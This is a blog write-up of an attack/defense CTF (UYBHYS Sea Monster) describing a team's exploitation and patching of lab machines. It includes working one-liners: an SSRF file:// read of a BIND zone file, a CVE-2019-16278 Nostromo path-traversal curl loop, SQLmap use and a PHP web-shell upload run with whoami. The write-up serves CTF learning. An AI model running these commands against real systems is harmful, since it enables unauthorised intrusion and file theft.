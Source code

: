 ```yaml
---
layout: post
title: UYBHYS - Sea Monster Attack & Defense CTF
---
```


Last week-end I teamed up with members from [Aperikube](https://www.aperikube.fr) for an Attack/Defense CTF which took place in Brest - France. In this "small" blog post I will write about this experience, the challenges and our methodology :)

![Banner]({{ site.baseurl }}/images/SeaMonsterBanner.png "Banner"){: .center-image }

<!--more-->

Rules & informations about the CTF are available in the following PDF : [CTF_UYBHYS.pdf]({{ site.baseurl }}/files/CTF_UYBHYS.pdf)

## CTF Architecture

All teams had the same virtual machines to secure and attack.

- bastion.unlock.ctf : 172.16.1.20
- www.unlock.ctf : 172.16.1.10
- plc.unlock.ctf : 192.168.12.10
- win.unlock.ctf : 192.168.0.10
- fw.unlock.ctf (PfSense)

These machines host some services such as Web Servers, RDP etc... We had access to the source code of the binaries and the URL alive.unlock.ctf displayed the status of all teams services. In the following picture you can clearly see Team08 and Team10 didn't patch their RDP.

![Alive]({{ site.baseurl }}/images/SeaMonsterAlive.png "Alive services"){: .center-image }

In the first 30 minutes we could access our machines and secure them without losing any points, then the scoreboard will update every 20 seconds to decrease your point if a service is down, you also loose point when a team is stealing one of your flag. Based on what we had we mapped the services linked to a flag and 2 columns to check if they were patched and/or exploited.

{% highlight sql %}
PORT      STATE    SERVICE       REASON         VERSION                             PATCHED     EXPLOIT
53                               Bastion        bind                                OK          OK       SSRF/zone
25/tcp                           PLC            vplc ESMTP Postfix (Debian/GNU)     OK     
80/tcp    open     http          Web            nginx 1.6.2                         OK          OK       sql    TODO RCE
502/tcp   open     modbus        PLC            Modbus TCP                          OK          OK       Modbus    
3232/tcp  open     http          Web            nostromo 1.9.6                      OK          OK       DirTravRCE        
3389/tcp  filtered ms-wbt-server Win                                                     
4141/tcp  open     oirtgsvc?     Bastion        whoareyou                           OK                   BOF ? 
4242                             Bastion                                            OK              
8080/tcp  open     http          Bastion        Apache httpd 2.4.10 ((Debian))      OK          KO       MySQL ?
9090/tcp  open     http          Web            nginx 1.6.2                         OK          OK       LDAP inj
45454/tcp open     unknown       Bastion        exploit 
{% endhighlight %}  


It was possible to trade some points for hints and insights in the Black Market, however nothing is guaranted: flags and hints might be wrong or misleading. We took the $0 trade, this gave us a list of the teams and their corresponding sea monster : 

{% highlight sql %}
TEAM1-CRABAL
TEAM2-MEDUSA
TEAM3-STARKA
TEAM4-PIKOR
TEAM5-PONIK
TEAM6-BALENOR
TEAM7-KRAKEN
TEAM8-SQUIDO
TEAM9-HYDROL
TEAM10-SHARKY
TEAM11-POULPY
TEAM12-GUMPAL
TEAM12-SNAKUS
TEAM14-MORSOS
TEAM15-RAYMOL
{% endhighlight %}


## win.unlock.ctf

I wasn't paying attention when the organizers told us the account was not `user` as stated in the PDF but in fact `Administrator`. Missing this information, made me try to exploit the machine in order to get an NT AUTORITY SYSTEM shell, I went to the easy path `Eternal Blue`.

![Windows Eternal Blue]({{ site.baseurl }}/images/SeaMonsterWin.png "Windows Eternal Blue"){: .center-image }

### RDP - 3389

However the SMB service was not forwarded by the firewall and we couldn't exploit the service, it seems the intended way was to use `Bluekeep` as the RDP was checked by the bot and the team lose some points until we opened a Port Forward rule.

![Firewall]({{ site.baseurl }}/images/SeaMonsterFirewall.png "Firewall services"){: .center-image }


## plc.unlock.ctf 

### Modbus - 502

This machine was an easy win, we used [plcscan](https://github.com/meeas/plcscan) to scan the Modbus service on port 502, the PLC description contained the flag.

![Modbus]({{ site.baseurl }}/images/SeaMonsterModbusScan.png "Modbus services"){: .center-image }

![PLC]({{ site.baseurl }}/images/SeaMonsterPLC.png "PLC description"){: .center-image }

{% highlight sql %}
team02.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{bda1c2b26927c2ac87e084fc5} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{bda1c2b26927c2ac87e084fc5} 
team03.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{7ec413a0d19bf0a59a95d8874} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{7ec413a0d19bf0a59a95d8874} 
[...]
team14.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{3e710c7179074e1a62be9de88} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{3e710c7179074e1a62be9de88} 
{% endhighlight %}

## bastion.unlock.ctf

### SSRF - Port 8080

The web server on port 8080 allows the user to ping a machine, we runned the `grep` binary on the entire disk to find files containing flags and used the SSRF to display them with `http://team14.ctf:8080/index.php?ip=file://PATH_TO_FILE`.

It appears we could read the file `file:///etc/bind/zones/unlock.ctf.db`, so we scripted the exploitation of this challenge, however this was the flag for the `Port 53`...

{% highlight bash %}
for i in `seq 1 15`; do echo "Team"$i; curl -s http://team0$i.ctf:8080/index.php?ip=file%3A%2F%2F%2Fetc%2Fbind%2Fzones%2Funlock.ctf.db | grep UYB; done
{% endhighlight %}

![Bind]({{ site.baseurl }}/images/SeaMonsterWWWssrfpath.png "Bind"){: .center-image }

We made the mistake to assume a simple filter like `$ip[0] == "1"` would be enough to stop any exploitation on our machine, however we missed the critical point. Another service was available on port 6666, which would display the content of the file using a specificly crafted URL. We saw the exploit in our logs and replayed the URL on the other team to get more flags.

## www.unlock.ctf 

### Nostromo - Port 3232

We used the CVE-2019-16278 to exploit the Nostromo service on the web machine.

{% highlight bash %}
$ for i in `seq 1 15`; do echo -n "Team"$i; curl -s "http://team0$i.ctf:3232//.%0D./.%0D./.%0D./.%0D./var/nostromo/conf/flag.txt" | grep UYB; done

[...]
Team2 UYB{bcf13245517c9fb5158719cec}
Team3 UYB{b454ae20caa9b07ab4e2c3c01}
Team4 UYB{41c0136228d5a7db614f89431}
[...]
{% endhighlight %}

Our patch might have been the worst of all patch history, we made a copy a the current index page with `curl` and then replaced the nostromo service with a `python -m SimpleHTTPServer 3232`. Dirty but efficient !

![Trade]({{ site.baseurl }}/images/SeaMonsterTrade.jpg "Trade"){: .center-image }

### Custom website - Port 80 

First part of the exploitation was to create an account to access the website and find the SQL injection. The exploitation doesn't need to be logged in, the flag was stored as a plaintext password for the administrator. `SQLmap` and simple `for` loop were enough to exploit the vulnerability and dump the users table.

![SQL]({{ site.baseurl }}/images/SeaMonsterSQL.png "SQL"){: .center-image }

The website contains multiple vulnerabilities, once logged as admin we can access the upload page, even though the HTML upload part was commented. 

![UPLOAD]({{ site.baseurl }}/images/SeaMonsterWWWuploadcode.png "upload"){: .center-image }

The PHP backend is doing some checks but it is not enough to prevent the upload of a PHP file in the images directory, we used a payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20Metadata/PHP_exif_system.jpg) and then executed our commands with `http://team12.ctf/images_import/PHP_exif_system.php?c=whoami`. Unfortunately the CTF ended when we got our command exec... (otherwise we might have been able to exploit EternalBlue against the Windows machine and grab the flag located in C:\flag).

Even if you had patched these vulnerabilities in the website, there were two backup folders `site.bak` and `site_save` to remove.

![Backup]({{ site.baseurl }}/images/SeaMonsterWWWtree.png "Backup"){: .center-image }

## Final Thought

The CTF was great, the infrastructure worked flawlessly and the challenge difficulty was balanced enough to let the team understand, patch and exploit them during the 5 hours timeframe. We finished 1st but I would like to thank all the teams for their fair-play and the organisers for the event. Also thank you to the different sponsors ;)

![Scoreboard]({{ site.baseurl }}/images/SeaMonsterScoreboard.jpg "Scoreboard"){: .center-image }

